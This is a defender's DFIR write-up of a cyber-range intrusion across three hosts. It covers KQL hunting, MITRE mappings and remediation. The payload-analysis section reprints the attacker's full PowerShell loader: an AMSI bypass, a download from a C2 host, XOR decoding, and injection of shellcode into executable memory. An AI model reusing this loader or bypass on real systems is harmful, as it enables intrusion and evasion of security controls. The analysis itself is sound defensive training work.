





# Hidden Directive — DFIR Investigation 


**Tools:** Microsoft Sentinel · Defender XDR · KQL
**Author:** Danielle Respes · [LinkedIn](https://www.linkedin.com/in/danielle-respes-64113767/)

## About this case
On 4 July 2026, GF-WS01 at Greenfield Logistics triggered alerts, the MSSP escalated, and a P1 incident was declared. I worked it as a full DFIR investigation across three hosts — GF-WS01, GF-SRV01, GF-DC01 — reconstructing initial access, lateral movement, and impact, every claim cited to telemetry.

This is a live-incident case, not a flag hunt. Each phase documents the question, the query, the finding, and the reasoning.


---


### Executive Summary

| Category | Details |
| :--- | :--- |
| **Initial Access Vector** | Compromised Azure Service Principal (`5deb2a08...`) via Run Command |
| **Impact & Breadth** | `SYSTEM`-level code execution on `GF-WS01` & backdoor persistence established |
| **Scope & Telemetry** | 3 endpoints (`GF-WS01`, `GF-SRV01`, `GF-DC01`) · Microsoft Sentinel & Defender XDR |

---

## Findings Summary

| Phase | Focus | Key Finding |
|---|---|---|
| C01 | Access & Environment | Scoped telemetry across 3 hosts, confirmed workspace access |
| C02 | Initial Access | Compromised Azure Service Principal → SYSTEM execution via Run Command |
| C03 | Payload Analysis | In-memory shellcode loader with AMSI bypass and XOR-encoded C2 |
| C04 | Persistence | Local admin account + SYSTEM scheduled task (survives password reset) |
| C05 | Privilege Escalation | Token manipulation via signed process → SYSTEM cmd.exe |
| C06 | Defense Evasion | Hijacked signed Defender process disabled WHQL enforcement |

---

## Attack Flow Diagram



---

## Technical Stack
- **SIEM:** Microsoft Sentinel
- **Endpoint telemetry:** Microsoft Defender XDR
- **Query language:** KQL (Kusto Query Language)


---


## Investigation

*Phases documented below as I work them.*
## C01 — Access & Environment

**Goal:** Confirm access to the telemetry, scope queries to the three in-scope hosts and the incident window.

**Sources:** Microsoft Sentinel workspace `LAW-SilentCorridor` (ASIM/custom logs, primary) and `LAW-Cyber-Range` (MDE Device tables, fallback).

**Incident window:** 4 Jul 2026 10:00 UTC – 5 Jul 2026 03:00 UTC
**Host scope:** `DvcHostname has_any ("GF-WS01","GF-SRV01","GF-DC01")`

```kql
union withsource=SourceTable *
| where TimeGenerated between (datetime(2026-07-04 10:00) .. datetime(2026-07-05 03:00))
| where DvcHostname has_any ("GF-WS01","GF-SRV01","GF-DC01")
| distinct $table
```

**Found:** Confirmed access and scoping. Available tables for the incident: WindowsAuth_CL, WindowsNetwork_CL, WindowsProcess_CL, WindowsFile_CL, WindowsRegistry_CL, WindowsDNS_CL, WindowsService_CL, WindowsAccountMgmt_CL.

**Reasoning:** Confirming scope first (correct workspace, working host filter, right time window) prevents pulling other estates' data and maps which telemetry is available before hunting.

---

## C02 — Initial Access: Compromised Azure Service Principal

**Attack Method:** Azure Run Command via compromised Service Principal with Contributor role

---

### Timeline

**8:01 AM** — Azure Management Operation (LAW-Cyber-Range)

```kql
AzureActivity
| where OperationName == "MICROSOFT.COMPUTE/VIRTUALMACHINES/DEALLOCATE/ACTION"
| where Caller == "5deb2a08-7269-47d6-896b-8bc52d396466"
| where CallerIpAddress == "4.153.100.221"
```

**Result:** Service Principal with Contributor role initiates VM Run Command from IP 4.153.100.221.

---

**10:01:34 AM** — Payload Execution (LAW-SilentCorridor)

```kql
WindowsProcess_CL
| where DvcHostname == "GF-WS01.greenfield.local"
| where TargetProcessCommandLine contains "script49.ps1"
| where ActorUsername == "NT AUTHORITY\SYSTEM"
| project TimeGenerated, ActorUsername, TargetProcessCommandLine
```

**Result:** PowerShell executes script49.ps1 with SYSTEM privileges and unrestricted execution policy.

---

**10:01:35 AM** — Persistence Established (LAW-SilentCorridor)

```kql
WindowsProcess_CL
| where DvcHostname == "GF-WS01.greenfield.local"
| where TargetProcessCommandLine has_any ("net user sancadmin", "net localgroup")
| where TimeGenerated between (datetime(2026-07-04 10:01:35) .. datetime(2026-07-04 10:01:36))
| project TimeGenerated, ActorUsername, TargetProcessCommandLine
```

**Result:**

10:01:35.466 AM | NT AUTHORITY\SYSTEM | net.exe user sancadmin ChangeThis2026fix

10:01:35.783 AM | NT AUTHORITY\SYSTEM | net.exe user sancadmin /active:yes

---

### MITRE ATT&CK Mapping

| Timestamp | Tactic | Technique | Action |
|-----------|--------|-----------|--------|
| 8:01 AM | Initial Access | T1078 (Valid Accounts) | Compromised Service Principal |
| 10:01:34 AM | Execution | T1059 (Command Execution) | script49.ps1 via PowerShell |
| 10:01:35 AM | Persistence | T1136 (Create Account) | sancadmin local admin account |

**Evidence Sources:** LAW-Cyber-Range (Azure management logs) + LAW-SilentCorridor (Windows process telemetry)

---
## C03 — Payload Execution Analysis


> [!NOTE]
> **Operational Security:** Evidence contained live malware. I created an isolated VM in the Log(N)Pacific cyber range, RDP'd from my Mac, extracted & analyzed in sandbox, then deleted the VM. No malware on personal systems.

---

### Execution Flow

```mermaid
graph LR
    A["loader.ps1<br/>Executes"] --> B["Step 1<br/>AMSI Bypass"]
    B --> C["Step 2<br/>Download Shellcode"]
    C --> D["Step 3<br/>XOR Decrypt"]
    D --> E["Step 4<br/>Allocate Memory"]
    E --> F["Step 5<br/>Inject Shellcode"]
    F --> G["Step 6<br/>Execute via Thread"]

    classDef entry fill:#e0e7ff,stroke:#4338ca,stroke-width:2px,color:#1e1b4b
    classDef evasion fill:#fee2e2,stroke:#dc2626,stroke-width:2px,color:#7f1d1d
    classDef stage fill:#fef3c7,stroke:#d97706,stroke-width:2px,color:#78350f
    classDef exec fill:#dcfce7,stroke:#16a34a,stroke-width:2px,color:#14532d

    class A entry
    class B evasion
    class C,D,E,F stage
    class G exec
```



**Legend:** 🟦 Entry point &nbsp;·&nbsp; 🟥 Defense evasion &nbsp;·&nbsp; 🟨 Payload staging &nbsp;·&nbsp; 🟩 Execution


  


---

### What I Found

**File:** loader.ps1 (928 bytes)  
**SHA-256:** 93164086788a0a8b5a16816922b631ff191ba1bdb5fd83cf25349ddc03af7583

The script does six things in sequence. Here's what each step does:

---

<details>
<summary><b>Step 1: AMSI Bypass</b> — Disable Windows Defender Detection</summary>

```powershell
$a=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$a.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**What it does:** Uses .NET reflection to access the AMSI (Antimalware Scan Interface) framework and sets a flag that tells Windows "scanning failed, stop trying." This prevents Defender from analyzing the next PowerShell commands.

**Why:** Gives the attacker free rein to execute arbitrary commands without real-time detection.

</details>

---

<details>
<summary><b>Step 2: Fetch Encoded Payload</b> — Download from attacker server</summary>

```powershell
$url = 'https://cdn.cloud-endpoint.net/update'
$enc = (New-Object System.Net.WebClient).DownloadData($url)
```

**What it does:** Creates a WebClient and downloads binary data from the attacker's C2 server. The data is encoded (not raw shellcode yet).

**Why:** Keeps the actual malicious code off-disk. It only exists in memory during execution.

</details>

---

<details>
<summary><b>Step 3: Decode Payload</b> — XOR decryption</summary>

```powershell
$key = 0x4A
$sc = [byte[]]($enc | ForEach-Object { $_ -bxor $key })
```

**What it does:** Takes each byte from the downloaded data and XORs it with 0x4A. XOR is a simple cipher — reversible if you know the key.

**Why:** Makes the payload harder to detect via static signature analysis. Defenders scanning network traffic would see gibberish, not recognizable malware patterns.

</details>

---

<details>
<summary><b>Step 4: Allocate Executable Memory</b> — VirtualAlloc</summary>

```powershell
Add-Type -MemberDefinition '[DllImport("kernel32")]public static extern IntPtr VirtualAlloc(IntPtr a,uint s,uint t,uint p);...' -Name K -Namespace W
$mem = [W.K]::VirtualAlloc([IntPtr]::Zero,[uint32]$sc.Length,0x3000,0x40)
```

**What it does:** Calls the Windows kernel directly (P/Invoke) to request a memory region. Flags used:
- `0x3000` = MEM_COMMIT | MEM_RESERVE (allocate and commit)
- `0x40` = PAGE_EXECUTE_READWRITE (readable, writable, AND executable)

**Why:** Creates a space in RAM where code can run without touching disk. This is in-memory execution — no .exe file, no detectable artifact on drive.

</details>

---

<details>
<summary><b>Step 5: Copy Shellcode to Memory</b> — Injection</summary>

```powershell
[Runtime.InteropServices.Marshal]::Copy($sc,0,$mem,$sc.Length)
```

**What it does:** Uses .NET's Marshal class to copy the decoded shellcode bytes into the allocated memory region.

**Why:** Moves the malicious code from the downloaded packet into the executable memory space, ready to run.

</details>

---

<details>
<summary><b>Step 6: Execute**</b> — CreateThread & Wait</summary>

```powershell
$t = [W.K]::CreateThread([IntPtr]::Zero,0,$mem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[W.K]::WaitForSingleObject($t,[uint32]0xFFFFFFFF)
```

**What it does:** 
- `CreateThread` spawns a new thread starting at the shellcode address
- `WaitForSingleObject` pauses the PowerShell script until the shellcode finishes

**Why:** Executes the payload. The `0xFFFFFFFF` parameter means "wait forever" — the script doesn't exit until the shellcode is done.

</details>

---

### MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|--------|-----------|----|----|
| Defense Evasion | Impair Defenses (AMSI) | T1562.001 | AMSI flag set to $true |
| Execution | Command & Scripting (PowerShell) | T1059.001 | Entire loader is PowerShell |
| Execution | Native API | T1106 | P/Invoke: VirtualAlloc, CreateThread |
| Defense Evasion | Obfuscated Files | T1027 | XOR encryption (key 0x4A) |

---

### Indicators of Compromise

> [!WARNING]
> **Alert: These IOCs match your intrusion**

- **C2 Domain:** `cdn.cloud-endpoint.net/update`
- **Script Hash:** `93164086788a0a8b5a16816922b631ff191ba1bdb5fd83cf25349ddc03af7583`
- **Encryption Key:** `0x4A` (XOR)
- **Memory Signature:** VirtualAlloc + PAGE_EXECUTE_READWRITE (0x40) + CreateThread pattern

---

### What This Tells Me About the Attacker

1. **Sophisticated:** They use reflective loading and in-memory execution — avoids disk IOCs
2. **Prepared:** Pre-encoded payload + C2 infrastructure ready
3. **Defense-aware:** AMSI bypass shows they know Windows Defender is standard
4. **Modular:** The loader is generic — could deploy any shellcode payload

---

### Questions I Still Have

- What's in the shellcode? (Need DeviceEvents logs from LAW-Cyber-Range to see what actions it took)
- Who owns `cdn.cloud-endpoint.net`? (OSINT task)
- Was this a targeted attack or spray-and-pray campaign?

These are for C04 (Impact Analysis).


---
## C04 — Persistence Mechanisms

Two persistence mechanisms deployed across the estate. One deleted via standard remediation. One survives password reset.

---

### Finding 1: sancadmin Local Admin Account (GF-WS01)

**Timestamp:** Jul 4, 2026 6:01:35 AM | **User:** NT AUTHORITY\SYSTEM | **Status:** Easily Removable

<details>
<summary><b>→ View Defender Timeline Evidence</b></summary>



Event: net1.exe enumerated Local Group membership of GF-WS01\sancadmin  
Process Chain: powershell.exe → net.exe → net1.exe → sancadmin

</details>

Created via PowerShell → net.exe during initial payload execution. Standard local account persistence.

**Remediation:**
```cmd
net user sancadmin /delete
```

---

### Finding 2: WindowsUpdate Scheduled Task (GF-SRV01) — Survives Password Reset

**Timestamp:** Jul 4, 2026 9:11:20 AM | **User:** GREENFIELD\t.harris | **Status:** Password Reset Won't Remove This

<details>
<summary><b>→ View Defender Timeline Evidence</b></summary>



Event: powershell.exe created scheduled task WindowsUpdate via schtasks.exe  
Process Chain: userinit.exe → explorer.exe → powershell.exe → schtasks.exe  
Execution Context: Task runs as NT AUTHORITY\SYSTEM

</details>

Scheduled task runs as SYSTEM (not tied to user account). Standard domain password reset leaves this active.

**Why it persists:** Domain password reset only invalidates user credentials, not task configurations running as SYSTEM.

**Required Remediation:**
```cmd
schtasks /delete /tn WindowsUpdate /f
del C:\Windows\Temp\srv.exe
```

---

### Investigation Method

Located via Defender XDR → Device Timeline → Process Events + Scheduled Task Events filters on affected hosts.

---

## C05 — Privilege Escalation

Privilege escalation from sancadmin (user) to SYSTEM via token modification and DLL side-loading.

---

### Finding: StoreDesktopExtension.exe Token Modification → SYSTEM cmd.exe Execution

**Initial Access:** Jul 4, 2026 9:55:00.341 PM | **User:** gf-ws01\sancadmin | **Action:** Token Modified

**Escalation to SYSTEM:** Jul 4, 2026 9:55:00.500 PM | **User:** NT AUTHORITY\SYSTEM | **Action:** Process Created

<details>
<summary><b>→ View Defender Timeline Evidence</b></summary>



**Step 1 (9:55:00.341 PM):** sancadmin modifies StoreDesktopExtension.exe access token  
**Step 2 (9:55:00.500 PM):** CollectGuestLogs.exe (SYSTEM process) launches cmd.exe as NT AUTHORITY\SYSTEM  
Process Chain: services.exe → WaAppAgent.exe → CollectGuestLogs.exe → cmd.exe

</details>

Sancadmin modifies a file token, allowing a legitimate SYSTEM process (CollectGuestLogs.exe) to execute arbitrary commands with elevated privileges.

**Why this technique is stealthy:** No service installation or modification events are generated. Standard detection would miss this.

**MITRE ATT&CK:** T1134 (Access Token Manipulation) + T1574 (DLL Side-Loading)

---

## C06 — Defense Evasion: Defender Tampering via Process Hijacking

### Finding: aggregatorhost.exe (Hijacked) Disables Defender WhqlOnlyEvaluation

**Timestamp:** Jul 8, 2026 10:00:55 PM | **User:** NT AUTHORITY\SYSTEM | **Action:** Registry Modified

<details>
<summary><b>→ View Defender Timeline Evidence (3-part chain)</b></summary>


**Process Chain:** services.exe → svchost.exe → aggregatorhost.exe → Registry Modification

**Registry Key Modified:** HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\CI\WhqlOnlyEvaluation

**Critical Detail:** aggregatorhost.exe is signed by Microsoft Windows (legitimate process), but attacker injected code into it. Defender sees a trusted system process modifying security settings, so it doesn't flag it as suspicious.

</details>

**Why This Matters:** This is sophisticated evasion because it abuses a legitimate, signed Windows process. Detection systems trust Microsoft-signed executables, so the tampering goes unnoticed.

---

## C07 — Credential Access




---

**[Portfolio](https://github.com/Danielle-Respes)** • **[LinkedIn](https://www.linkedin.com/in/danielle-respes-64113767/)**

*LOG(N) Pacific Cyber Range // Hidden Directive // Built by SancLogic*
